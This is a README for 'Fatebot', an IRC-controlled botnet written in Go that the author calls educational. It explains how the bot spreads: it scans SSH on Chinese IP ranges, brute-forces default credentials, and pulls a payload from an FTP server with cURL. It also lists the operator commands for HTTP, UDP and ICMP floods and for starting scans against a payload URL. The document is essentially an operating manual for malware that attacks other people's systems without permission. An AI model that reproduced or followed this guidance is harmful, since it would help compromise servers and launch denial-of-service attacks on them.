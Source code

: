 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot
This is my first IRC bot for launch ddos attack, Write on Go language. For education purpose only. Please test it on your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="img/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "admin". <strong>(Scan by range of CHN network. You can add more if you want.)</strong>

This botnet use cURL to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<img src="img/scanprocess.png" alt="SSH scan">


# DDoS
Raw socket programming is really hard for me and I don't know about exploit development,
But raw socket need it(exploit) to get a permission for run it. In <strong>The volumetric</strong> all of them are a simple udp and icmp flood. so DDoS function is really hard and challenge for me.

<img src="img/udptraffic.png" alt="udp flood, dos example">

# IRC Commands
<ul>
  <li><strong>?http [url]</li></strong>
    <ul>
      <li>?http https://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?fate [url] [udp size]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16 700</li>
      - Use all DDoS function to attack target.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range on SSH port and get payload with cURL.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Remove payload on bot machine and left the server.
    </ul>
</ul>

<ul>
  <li><strong>?stop.ddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stop.scan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
